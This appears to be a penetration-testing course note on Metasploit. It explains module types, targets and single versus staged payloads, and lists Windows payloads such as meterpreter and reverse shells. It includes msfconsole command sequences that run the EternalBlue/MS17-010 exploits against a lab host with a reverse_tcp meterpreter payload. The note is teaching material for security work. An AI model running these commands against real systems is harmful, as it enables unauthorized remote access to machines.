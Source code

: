 # Modules, targets

{% hint style="danger" %}
It is important to note that payloads and exploits HIGHLY depends on the target's environment, architecture. Etc since it is based on the return addresses of the functions and registers so at times we will be crafting our own.
{% endhint %}

### Modules

```bash
<No.> <type>/<os>/<service>/<name>
794   exploit/windows/ftp/scriptftp_list
```

* Type:
  * Auxiliary: Scanning, fuzzing...etc
  * Encoders: Encoding the payloads.
  * Exploits:
  * NOPs: No Operation Code, padding for the payload.
  * Payloads:
  * Plugins:
  * Post: Post exploitation; pivoting deeper...etc

### Navigating in msfconsole modules

```bash
$msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
msf6 exploit(windows/smb/ms17_010_psexec) > info
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40 # Kepp it the same for all the next work.
msf6 exploit(windows/smb/ms17_010_psexec) > run
```

## Targets

Simply the targets available for a specific selected exploit. Potentially victims.

```bash
msf6 > show targets
[-] No exploit module selected.
msf6 exploit(windows/smb/ms17_010_psexec) > show targets
msf6 exploit(windows/browser/ie_execcommand_uaf) > set target 6
```

## Payloads

The code that gets executed to exploit a certain vulnerability. The exists three types of payloads in metasploit:

* Singles: <mark style="color:purple;">windows/shell\_bind\_tcp</mark>, it contains the entire shellcode for the selected task, so they're more stable than the staged ones since they are AIO which makes them heavier than other types of payloads.
* Stagers: windows/shell/<mark style="color:purple;">bind\_tcp</mark>, These work alongside stages, they are waiting on the attacker's machine to establish a connection to the victim host once the stage completes its task on the target. Small in size.
  * Faces a huge issue when dealing with NX bits and DEP measures.
  * Stagers that are NX-aware are bigger in size.&#x20;
* Stages: windows/<mark style="color:purple;">shell</mark>/bind\_tcp, payload components that are loaded by the loader.

### Staged Payloads

As mentioned earlier, they're an exploitation process that is decomposed and modularized to help in the segmentation of the exploitation in action to be less detectable and picked by AV or IPS. If all the stages work with no issues, the attacker will gain his beloved remote access.

The <mark style="color:red;">**meterpreter payload**</mark> for example uses DLL injection in order to ensure a communication with the target. Once we successfully infect the target, we see a meterpreter interface that looks like the msfconsole except that the commands that we will be executing are aimed at the target.

### Searching, Selecting and using payloads

```

msf6 > select <exploit>

# Help of grep in identifying the desired payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep -c meterpreter show payloads 
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...

# Setting the payload:
msf6 exploit(windows/smb/ms17_010_eternalblue) > grep meterpreter grep reverse_tcp show payloads
...
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload <Number Of Payload>
...

# After setting a payload we'll have to setup the options
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > ifconfig
...
msf6 exploit(**windows/smb/ms17_010_eternalblue**) > set LHOST <our-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS <target-ip>
msf6 exploit(windows/smb/ms17_010_eternalblue) > run
...
meterpreter > help
...

```

| <mark style="color:yellow;">**Payload**</mark> | <mark style="color:yellow;">Description</mark>                         |
| ---------------------------------------------- | ---------------------------------------------------------------------- |
| `generic/custom`                               | Generic listener, multi-use                                            |
| `generic/shell_bind_tcp`                       | Generic listener, multi-use, normal shell, TCP connection binding      |
| `generic/shell_reverse_tcp`                    | Generic listener, multi-use, normal shell, reverse TCP connection      |
| `windows/x64/exec`                             | Executes an arbitrary command (Windows x64)                            |
| `windows/x64/loadlibrary`                      | Loads an arbitrary x64 library path                                    |
| `windows/x64/messagebox`                       | Spawns a dialog via MessageBox using a customizable title, text & icon |
| `windows/x64/shell_reverse_tcp`                | Normal shell, single payload, reverse TCP connection                   |
| `windows/x64/shell/reverse_tcp`                | Normal shell, stager + stage, reverse TCP connection                   |
| `windows/x64/shell/bind_ipv6_tcp`              | Normal shell, stager + stage, IPv6 Bind TCP stager                     |
| `windows/x64/meterpreter/$`                    | Meterpreter payload + varieties above                                  |
| `windows/x64/powershell/$`                     | Interactive PowerShell sessions + varieties above                      |
| `windows/x64/vncinject/$`                      | VNC Server (Reflective Injection) + varieties above                    |

> Other critical payloads that are heavily used by penetration testers during security assessments are Empire and Cobalt Strike payloads. These are not in the scope of this course, but feel free to research them in our free time as they can provide a significant amount of insight into how professional penetration testers perform their assessments on high-value targets.


